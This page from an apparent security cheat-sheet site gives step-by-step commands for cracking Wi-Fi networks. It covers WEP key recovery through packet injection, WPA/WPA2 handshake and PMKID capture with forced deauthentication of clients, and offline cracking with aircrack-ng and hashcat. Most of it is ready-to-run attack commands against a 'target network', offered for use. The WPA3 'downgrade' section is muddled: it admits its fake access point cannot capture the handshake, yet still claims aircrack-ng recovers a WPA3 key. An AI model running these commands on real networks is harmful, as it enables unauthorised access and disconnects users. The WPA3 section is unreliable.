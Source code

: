 ```yaml
---
title: Wireless
layout: page
parent: network
---
```


# Wireless

<details open markdown="block">
  <summary>
    Table of contents
  </summary>
  {: .text-delta }
1. TOC
{:toc}
</details>

---

## Setup

### Monitor mode

First off, you need to set up your wifi interface in monitor mode. To do so, you need to know the name of your wifi interface. You can find it by running the following command:

```bash
ip addr
```

This will list all the network interfaces on your system. Look for the one that corresponds to your wifi adapter. It is usually named `wlan0`, `wlan1`, `wlo1` or something similar.
Once you have identified your wifi interface, you can set it to monitor mode using the following commands :

```bash
sudo airmon-ng check kill
sudo airmon-ng start <interface>  # start monitor mode
```

### Network scanning

Now, you can scan for wifi networks using the following command:

```bash
sudo airodump-ng <monitor_interface> #eg wlan0mon
```

This will display a list of all the wifi networks in range, and note the BSSID (MAC address) and channel of the target network.

## WEP cracking

### Capture packets

To crack WEP, you need to capture packets from the target network. You can do this using the following command:

```bash
sudo airodump-ng --channel <channel> --bssid <BSSID> --write <output_file> <monitor_interface>
```

You want a lot of Data packets (not just Beacons).

### Speed up the process

To speed up the process, you can use the following command to inject packets into the network:

```bash
sudo aireplay-ng --fakeauth 0 -a <BSSID> <monitor_interface>
```

This will authenticate you to the network and allow you to capture more packets, then you can use the following command to generate ARP requests:

```bash
sudo aireplay-ng --arpreplay -b <BSSID> <monitor_interface>
```

This will generate a lot of traffic and help you capture more packets.

### Cracking the WEP key

Once you have captured enough packets (at least 50000 IVs, recommended 200000), you can crack the WEP key using the following command:

```bash
aircrack-ng <output_file>
```

This will attempt to crack the WEP key using the captured packets. If successful, it will display the WEP key in the terminal.

## WPA/WPA2 cracking

### Option 1 (easier)

To crack WPA/WPA2, you need to capture a 4-way handshake. To do so, you have to capture the handshake when a client connects to the network, so start the airodump-ng command to capture packets:

```bash
sudo airodump-ng --channel <channel> --bssid <BSSID> --write <output_file> <monitor_interface>
```

If a client is connected to the network, you will see the handshake in the terminal. If not, you can use the following command to deauthenticate a client and force it to reconnect in another terminal:

```bash
sudo aireplay-ng --deauth 10 -a <BSSID> -c <STATION> <monitor_interface>
```

Once you have captured the handshake, you can crack the WPA/WPA2 key using a wordlist. You can use the following command to crack the key:

```bash
aircrack-ng -w <wordlist> <capture_file>
```

This will attempt to crack the WPA/WPA2 key using the wordlist provided. If successful, it will display the WPA/WPA2 key in the terminal.
Note that if the ESSID is hidden, you will need to use the `-e` option to specify the ESSID when cracking the key.

### Option 2 (harder but better)

A way faster and more successful alternative to the previous method is to use `hcxdumptool` to capture the handshake or the PMKID and then crack it with `hashcat`. This makes it more likely to succeed than the previous method since we could only use the handshake with it, and this method allows us to use `hashcat` to crack the hash which is way faster than `aircrack-ng`.

First, we need to do a dump using `tcpdump` :

```bash
sudo tcpdump -s 65535 -y IEEE802_11_RADIO "wlan addr3 <BSSID (eg.aabbccddeeff)> or wlan addr3 ffffffffffff" -ddd > <bpf_output_file>.bpf
```

Then, we can use `hcxdumptool` to capture the handshake or the PMKID, and it is mandatory to add band information to the channel number (e.g. 12a):

- band a: NL80211_BAND_2GHZ
- band b: NL80211_BAND_5GHZ
- band c: NL80211_BAND_6GHZ

Thus, you can use the following command:

```bash
sudo hcxdumptool -i <monitor_interface> -c <channel>[a,b,c] --bpf=<bpf_input_file>.bpf -w <output_capture_file>.pcapng
```

This will create a pcapng file with the captured packets, you need to wait for either the EAPOL handshake symbolized by the '3' or the PMKID symbolized by the 'P' to have a + under them to know that you have captured one of them, allowing you to try to crack the hash.

Now, we need to convert the pcapng file to the specific hash that `hashcat` can use. To do this, we can use the following command:

```bash
hcxpcapngtool -o <output_file>.hc22000 <input_capture_file>.pcapng
```

Finally, we can use [`hashcat`](https://nix4cyber.github.io/n4c/cracking/hash.html#hashcat) to crack the hash. You will need to import the `cracking` module. You can use the following command to try to crack the hash using a wordlist and a rule file, but bruteforce is also possible for wireless cracking.

```bash
hashcat -m 22000 -a 0 -o <output_file> -r /tmp/OneRuleToRuleThemStill/OneRuleToRuleThemStill.rule <hash_file>.hc22000 /tmp/wordlists/passwords/most_used_passwords.txt -w 4 --opencl-device-types 1,2 
```

## WPA3 downgrade

Note that this only allows us to shutdown traffic on the network, but not to capture the handshake. To do this, we need to change our approach on the WPA2 AP part.

### Capture packets

To crack WPA3, you need to capture packets from the target network. You can do this using the following command:

```bash
sudo airodump-ng --channel <channel> --bssid <BSSID> <monitor_interface>
```

### Deauthenticate a client

To deauthenticate a client and force it to reconnect, you can use the following command:

```bash
sudo aireplay-ng --deauth 10 -a <BSSID> -c <STATION> <monitor_interface>
```

### Fake a WPA2 AP

To fake a WPA2 AP, you can use the following command:

```bash
sudo airbase-ng -e <SSID> -c <channel> -P -C 30 -Z 4 <monitor_interface>
```

This will create a fake AP with the specified SSID and channel, however, this is not a true WPA2 AP, which does not allow us to capture the handshake. To do this, we need to use a different method. This is the only thing missing to make WPA3 cracking work.

### Option 1 (easier)

Conceal the WPA3 handshake by capturing it with airodump-ng:

```bash
sudo airodump-ng --channel <channel> --bssid <fake_BSSID> --write <output_file> <monitor_interface>
```

Once you have captured the handshake, you can crack the WPA3 key using a wordlist. You can use the following command to crack the key:

```bash
aircrack-ng -w <wordlist> <capture_file>
```

This will attempt to crack the WPA3 key using the wordlist provided. If successful, it will display the WPA3 key in the terminal.

### Option 2 (harder but better)

Same as WPA2, if you need more explanation check this [part](#option-2-harder-but-faster-and-more-successful) of the WPA2 cracking section.

```bash
sudo tcpdump -s 65535 -y IEEE802_11_RADIO "wlan addr3 <fake_BSSID (eg.aabbccddeeff)> or wlan addr3 ffffffffffff" -ddd > <bpf_output_file>.bpf
```

```bash
sudo hcxdumptool -i <monitor_interface> -c <channel>[a,b,c] --bpf=<bpf_input_file>.bpf -w <output_capture_file>.pcapng
```

```bash
hcxpcapngtool -o <output_file>.hc22000 <input_capture_file>.pcapng
```

Reminder that you need to import the cracking module to use [`hashcat`](https://nix4cyber.github.io/n4c/cracking/hash.html#hashcat) to crack the hash.

```bash
hashcat -m 22000 -a 0 -o <output_file> -r /tmp/OneRuleToRuleThemStill/OneRuleToRuleThemStill.rule <hash_file>.hc22000 /tmp/wordlists/passwords/most_used_passwords.txt -w 4 --opencl-device-types 1,2 
```

## Resetting the interface

Once you are done with the cracking, you can reset your wifi interface to its normal mode using the following command:

```bash
sudo airmon-ng stop <monitor_interface>
```

This will stop the monitor mode and reset the interface to its normal mode.
You can also use the following command to restart the network manager:

```bash
sudo systemctl restart NetworkManager
```

This will restart the network manager and allow you to connect to wifi networks again.
If you are using a different network manager, rebooting your system should also work.
